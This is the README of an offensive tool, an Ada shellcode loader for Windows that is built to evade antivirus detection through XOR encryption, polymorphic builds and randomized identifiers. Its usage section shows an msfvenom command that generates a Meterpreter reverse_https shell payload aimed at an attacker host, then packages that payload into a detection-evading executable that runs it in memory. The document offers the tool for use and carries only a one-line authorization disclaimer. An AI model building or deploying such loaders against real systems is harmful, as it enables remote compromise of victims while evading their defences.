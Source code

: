# Ada Shellcode Loader

A simple shellcode loader written in Ada for Windows x64.

## Features

- XOR encryption with random key per build
- Polymorphic compilation - every build is unique
- Written in Ada (uncommon language, low detection rates)
- Compiles to native Windows executable
- No external dependencies

## Requirements

- GNAT Ada compiler
- MinGW-w64 for cross-compilation
- Python 3

## Installation

### Automated Installation
```bash
chmod +x install.sh
./install.sh
```

Supports:
- Debian/Ubuntu
- RedHat/CentOS/Fedora
- Arch Linux
- macOS

### Manual Installation

**Debian/Ubuntu:**
```bash
sudo apt update
sudo apt install gnat gnat-mingw-w64 python3
```

**Fedora:**
```bash
sudo dnf install gcc-gnat mingw64-gcc-gnat python3
```

**Arch:**
```bash
sudo pacman -S gcc-ada mingw-w64-gcc python
```

**macOS:**
```bash
brew install gcc mingw-w64
```

## Usage
```bash
# Generate shellcode (raw format, x64)
# Example: msfvenom -p windows/x64/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f raw -o shellcode.bin

# Build
python3 build.py shellcode.bin

# Output: loader.exe
```

![Ada Shellcode Loader Demo](screenshot/loader-demo.png)

This shows the polymorphic executable being built from shellcode via `build.py`.

## Polymorphic Builds

Every compilation generates a completely unique binary:
- Randomized function and variable names (30+ identifiers)
- Random XOR encryption key
- Random timing delays
- Unique binary hash every time


## How It Works

1. `build.py` generates unique polymorphic code structure
2. Encrypts shellcode with a random XOR key
3. Compiles to Windows executable with randomized identifiers
4. At runtime, loader decrypts and executes shellcode in memory

## Technical Details

- **Encryption**: XOR with position-dependent key
- **Memory**: VirtualAlloc (RW) → VirtualProtect (RX)
- **Execution**: CreateThread
- **Language**: Ada 2012
- **Polymorphism**: 30+ randomized identifiers per build

## Notes

This is for authorized security testing only. Ensure you have proper authorization before use.
